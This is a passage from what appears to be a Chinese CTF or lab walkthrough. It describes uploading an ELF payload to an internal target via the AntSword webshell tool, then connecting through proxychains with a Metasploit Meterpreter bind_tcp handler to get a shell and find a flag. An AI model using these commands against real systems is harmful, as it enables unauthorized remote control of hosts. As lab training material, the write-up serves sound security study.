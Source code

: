 将elf文件通过蚁剑上传至Target2，赋予权限并执行

[![](assets/1705981930-bd13bf0b84ace8835c6f536a9b627a17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143834-b3010f6c-b827-1.png)

开启msfconsole启动监听

```plain
proxychains4 msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set rhost 192.168.1.132
set lport 9876
run
```

shell成功上线

[![](assets/1705981930-62a0a22bc61a39d861abd3b158581070.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143848-bbbce964-b827-1.png)

根目录存在flag

[![](assets/1705981930-a90dbf238977445bc6ae0e3a2bf6361e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121145300-b737472a-b829-1.png)
